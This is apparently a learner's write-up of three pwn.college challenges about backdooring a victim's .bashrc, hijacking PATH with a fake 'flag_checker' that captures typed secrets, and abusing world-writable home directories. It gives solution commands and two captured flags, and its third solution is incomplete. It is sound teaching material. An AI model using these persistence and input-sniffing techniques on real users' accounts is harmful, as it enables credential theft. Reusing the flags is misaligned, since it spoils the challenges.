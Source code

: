 # Bashrc Backdoor

When your shell starts up, it looks for `.bashrc` file in your home directory and executes it as a startup script. You can customize your `/home/hacker/.bashrc` with useful things, such as setting environment variables, tweaking your shell configuration, and so on.

You can also use it for evil! An unwitting victim's `.bashrc` is a common target for shenanigans. Imagine sneaking onto your friend's computer and adding a `echo "Hackers were here!"` at the end of their `.bashrc`. That's funny, but the same capability can be used for much more nefarious purposes. Malicious software, for example, often targets startup scripts such as `.bashrc to maintain persistence into the future!

In this challenge, we'll pretend that you've broken into a victim user's machine! That user is named `zardus`, with a home directory of `/home/zardus`. You, as the `hacker` user, have write access to his `.bashrc`, and `zardus` has read-access to `/flag`. The victim is simulated by the script `/challenge/victim`, and you can launch this script at any time to observe the victim logging into the computer. Can you get the flag?

HINT: Like the scripts you explored in `Chaining Commands`, the `.bashrc` script is just a shell script. Adding a new line with a command on it (e.g., `echo Hello Hackers`) will get that command executed, so all you really need to think about is what command will get you the flag!

NOTE: The victim's `/home/zardus/.bashrc` will have a lot of stuff already in it: the shell's startup is a complex affair. Don't panic --- just add your payload to the end and hope for the best!

HINT: Need to poke around as `zardus` to debug your solution? In practice mode, you can use `sudo su --login zardus` to drop into a Zardus session!

## Solution:

- `echo "cat /flag" >> /home/zardus/.bashrc` to add a command to `zardus`'s `.bashrc` that reads the flag.
- `/challenge/victim` prints the flag.

## Flag: 

```
pwn.college{kAWdIC64ndWUTtgKhAZXkwhf122.0VMzEzNxwCO0AzNzEzW}
```

### References:

- none

### Notes:

- `.bashrc` executes automatically when user logs into shell.
- When the shell starts up, it looks for `.bashrc` file in the home directory and executes it as a `startup script`.
- Malicious software, for example, often targets startup scripts such as `.bashrc` to maintain persistence into the future.



# Sniffing Input

In the previous level, you abused Zardus's `~/.bashrc` to make him run commands for you.

This time, Zardus doesn't keep the flag lying around in a readable file after he logs in. Instead he'll run a command named `flag_checker`, manually typing the flag into it for verification.

Your mission is to use your continued write access to Zardus's `.bashrc` to intercept this flag. Remember how you hijacked commands in the `Pondering PATH` module? Can you use that capability to hijack the `flag_checker`?

HINT: Is Zardus getting spooked by your hijack? He's careful --- he checks for the `flag_checker` prompt of `Type the flag`. Make sure your hijack also prints this prompt (e.g., `echo "Type the flag"`). Other than printing that prompt, your fake `flag_checker` can either just a) `cat` Zardus's input to stdout (e.g., `cat with no arguments`) or b) `read` it into a variable and `echo` it out. Up to you!

HINT: Don't forget to make your fake `flag_checker` executable, like you learned in the `Perceiving Permissions` module!

## Solution:

- `echo -e '#!/bin/bash\necho "Type the flag"\ncat' > /home/hacker/flag_checker` to create a fake `flag_checker` that intercepts the input.
- `chmod +x /home/hacker/flag_checker` makes it executable.
- `echo 'export PATH="/home/hacker:$PATH"' >> /home/zardus/.bashrc` add a PATH hijack  to `zardus`'s `.bashrc`.
- `/challenge/victim` gives the flag.

## Flag: 

```
pwn.college{EN1Ws4aqiHcj8jR_RJ5q6rHrJNH.0VNzEzNxwCO0AzNzEzW}
```

### References:

- none

### Notes:

- PATH hijacking can be made persistent by embedding it in startup scripts like `.bashrc`, ensuring the attack survives across multiple login sessions.



# Overshared Directories

Alright, Zardus has wised up --- why would he have a writable `.bashrc`, anyways? But a more common scenario is that users on the same system, to make it easier to collaborate, will make their home directories world writable. What's the problem here?

The problem is that a subtlety of Linux file/directory permissions is that anyone with write access to a directory can move and delete files in it. For example, let's say that Zardus has a world-writable directory for collaboration:

```sh
zardus@dojo:~$ mkdir /tmp/collab
zardus@dojo:~$ chmod a+w /tmp/collab
zardus@dojo:~$ echo "do pwn.college" > /tmp/collab/todo-list
```
And then a hacker comes along and does the following, despite not owning the todo-list file!

```sh
hacker@dojo:~$ ls -l /tmp/collab/todo-list
-rw-r--r-- 1 zardus zardus 15 Jun  6 13:12 /tmp/collab/todo-list
hacker@dojo:~$ rm /tmp/collab/todo-list
rm: remove write-protected regular file '/tmp/collab/todo-list'? y
hacker@dojo:~$ echo "send hacker money" > /tmp/collab/todo-list
hacker@dojo:~$ ls -l /tmp/collab/todo-list
-rw-r--r-- 1 hacker hacker 18 Jun  6 13:12 /tmp/collab/todo-list
hacker@dojo:~$
```
This might seem counterintuitive: `hacker` has no write access to the `todo-list` but the end result is that they can change the content. But think about it this way: a file's connection to a directory lives in the directory in the end, and users with write access to that directory can mess with it. Of course, this has security implications when important directories are world-writable.

In this challenge, for convenience, Zardus opened up his home directory:

```sh
zardus@dojo:~$ chmod a+w /home/zardus
```
As you know, there are lots of sensitive files in that directory such as `.bashrc`! Can you replicate the previous attack with write access to `/home/zardus` instead of `/home/zardus/.bashrc`?

## Solution:

- `echo -e '#!/bin/bash\necho "Type the flag"\nread input\necho "$input" > /home/hacker/stolen_flag\necho "$input"' > /home/hacker/flag_checker && chmod +x /home/hacker/flag_checker` creates a fake `flag_checker` that saves the input.
- `/challenge/victim` prints the flag.

## Flag: 

```
pwn.college{}
```

### References:

- none

### Notes:

Include things you learnt, alternate methods or mistakes you made while solving

